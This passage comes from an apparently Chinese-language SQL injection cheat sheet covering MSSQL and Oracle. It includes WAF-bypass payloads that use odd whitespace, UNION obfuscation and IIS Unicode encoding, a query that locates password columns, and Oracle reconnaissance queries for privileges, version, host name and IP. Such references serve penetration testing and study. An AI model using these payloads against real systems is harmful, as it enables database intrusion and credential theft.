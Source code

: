     - 關閉xp_cmdshell
    
    ```
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    EXEC sp_configure'xp_cmdshell', 0;
    RECONFIGURE;
    ```

- 快速查找帶關鍵字的表
    - `SELECT sysobjects.name as tablename, syscolumns.name as columnname FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id WHERE sysobjects.xtype = 'U' AND (syscolumns.name LIKE '%pass%' or syscolumns.name LIKE '%pwd%' or syscolumns.name LIKE '%first%');`


- 繞 WAF
    - Non-standard whitespace character:
        - `1%C2%85union%C2%85select%C2%A0null,@@version,null--`
    - 混淆 UNION
        - `0eunion+select+null,@@version,null--`
    - Unicode 繞過
        - IIS 對 Unicode 編碼是可以解析的，即 `s%u0065lect` 會被解析為 select

## Oracle

- `SELECT` 語句必須包含 `FROM`
    - 未指定來源，可以用 `dual` 表
- 子字串：
    - `SUBSTR('abc', 1, 1) => 'a'`
- 空白字元
    - `00 0A 0D 0C 09 20`
- IF語句
    - `IF condition THEN true-part [ELSE false-part] END IF`
- 註解：
    - `--`
    - `/**/`
- 不支援 limit
    - 改用 rownum
    - `select table_name from (select rownum no, table_name from all_tables) where no=1`
- 單雙引號
    - 單引號: string, date
    - 雙引號: identifier (table name, column name, ...)
- 其它
    - `SYS.DATABASE_NAME`
        - current database
    - `USER`
        - current user
        - or `sys.login_user`
    - `SELECT role FROM session_roles`
        - current role
    - `SELECT privilege FROM user_sys_privs`
        - system privileges granted to the current user
    - `SELECT privilege FROM role_sys_privs`
        - privs the current role has
    - `SELECT privilege FROM session_privs`
        - the all privs that current user has = user_sys_privs + role_sys_privs
    - `SELECT banner FROM v$version where rownum=1`
        - database version
    - `SELECT host_name FROM v$instance;`
        - Name of the host machine
    - `SELECT banner FROM v$version WHERE banner LIKE 'TNS%'`
        - 作業系統版本
    - `utl_inaddr.get_host_address`
        - 本機IP
    - `select utl_inaddr.get_host_name('87.87.87.87') from dual`